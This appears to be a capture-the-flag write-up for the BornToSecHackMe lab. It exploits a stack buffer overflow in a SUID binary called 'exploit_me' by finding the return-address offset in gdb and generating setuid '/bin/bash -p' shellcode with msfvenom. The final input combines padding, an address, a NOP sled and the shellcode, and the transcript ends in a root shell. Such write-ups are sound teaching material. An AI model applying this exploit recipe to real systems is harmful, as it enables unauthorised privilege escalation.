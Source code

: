 ```
```

### find segfault's offset
calculate the difference between addresses in gdb:     
ex: p/d adress_eip - address_inputStart
```
(gdb) p/d  0xbffff6ac - 0xbffff620
```
The difference is an offset of 140.


From here we must generate a x86 payload that will open us a shell as root. 

### make a payload with msfvenom

To generate the payload, we used a famous payload generator called `msfvenom`.    
Choose your payload with:
```bash
$> msfvenom --list payloads
```
We will used the paylaod: `linux/x86/exec`

Choose your options with:

```bash
$> msfvenom -p payload --list-options
```
We will set several options and generate our payload with:
```bash
$> msfvenom -p linux/x86/exec -n 32 -f raw -o payload.txt PrependSetuid=true PrependSetresuid=true VERBOSE=true NullFreeVersion=true CMD="/bin/bash -p"
```

Now we can find our payload in the file `payload.txt`.

#### Final input

To get our final input we will concatenate all those things:     
Set args like this:    
```
(gdb) set args "$(python -c 'print "A" * OFFSET')$(printf INPUTSTARTADDRESS)$(python -c 'print "\x90" * NOP_SIZE')$(cat PAYLOAD_FILE)"
``` 


Replacing all of it and we have our final input string that should give us a shell without extra-privileges because of gdb removing SUID permissions :
```
(gdb) set args "$(python -c 'print "A" * 140')$(printf "\xf0\xf5\xff\xbf")$(cat payload.txt)"
``` 

But if we run it ouside gdb, in a standard shell, we get a root shell:
```
zaz@BornToSecHackMe:~$ ./exploit_me "$(python -c 'print "A" * 140')$(printf "\x20\xf6\xff\xbf")$(python -c 'print "\x90" * 64')$(cat payload.txt)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ����������������������������������������%-,�H���1�1��㰤̀1�jX̀1�������ֹ@�Ԩ����B$/f'���
                       Rfh-c����
                                �Rh//shh/bin��RVWS��̀�����/bin/bash -p
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

And now we have a root shell !!

